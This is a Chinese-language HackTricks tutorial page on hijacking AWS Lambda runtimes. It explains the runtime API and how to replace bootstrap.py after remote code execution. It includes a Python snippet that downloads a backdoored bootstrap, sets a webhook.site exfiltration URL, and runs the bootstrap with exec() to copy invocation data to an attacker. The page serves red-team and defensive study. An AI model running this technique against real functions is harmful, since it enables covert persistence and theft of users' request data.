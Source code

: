 # AWS - 窃取Lambda请求

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## Lambda流程

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**是一个在容器外部的进程，向**init**进程发送**调用**。
2. init进程监听端口**9001**，暴露一些有趣的端点：
* **`/2018-06-01/runtime/invocation/next`** – 获取下一个调用事件
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 返回调用的处理程序响应
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 返回执行错误
3. **bootstrap.py**循环从init进程获取调用，并调用用户代码来处理它们（**`/next`**）。
4. 最后，**bootstrap.py**将响应发送给init

请注意，bootstrap将用户代码作为模块加载，因此用户代码执行的任何代码执行实际上是在此进程中发生的。

## 窃取Lambda请求

此攻击的目标是使用户代码在**`bootstrap.py`**进程内执行一个恶意**`bootstrap.py`**进程，处理易受攻击的请求。这样，**恶意bootstrap**进程将开始与init进程**通信**以处理请求，而**合法**的bootstrap被**困住**运行恶意进程，因此不会向init进程请求更多请求。&#x20;

这是一个简单的任务，因为用户的代码是由合法的**`bootstrap.py`**进程执行的。因此，攻击者可以：

* 向init进程**发送当前调用的虚假结果**，因此init认为bootstrap进程正在等待更多调用。
* 必须发送一个请求到**`/${invoke-id}/response`**&#x20;
* 可以使用[**inspect**](https://docs.python.org/3/library/inspect.html) python模块（如[此处提出的](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）或只需再次请求**`/2018-06-01/runtime/invocation/next`**（如[此处提出的](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）从合法的**`bootstrap.py`**进程的堆栈中获取invoke-id。
* 执行一个恶意**`boostrap.py`**，它将处理下一个调用
* 为了隐蔽起见，可以将Lambda调用参数发送到攻击者控制的C2，然后像往常一样处理请求。
* 对于此攻击，只需从系统或[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)获取**`bootstrap.py`**的原始代码，添加恶意代码并从当前Lambda调用中运行它。

### 攻击步骤

1. 找到一个**RCE**漏洞。
2. 生成一个**恶意**的**bootstrap**（例如[https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）
3. **执行**恶意的bootstrap。

您可以轻松执行这些操作：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
## 参考资料

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>从零开始学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
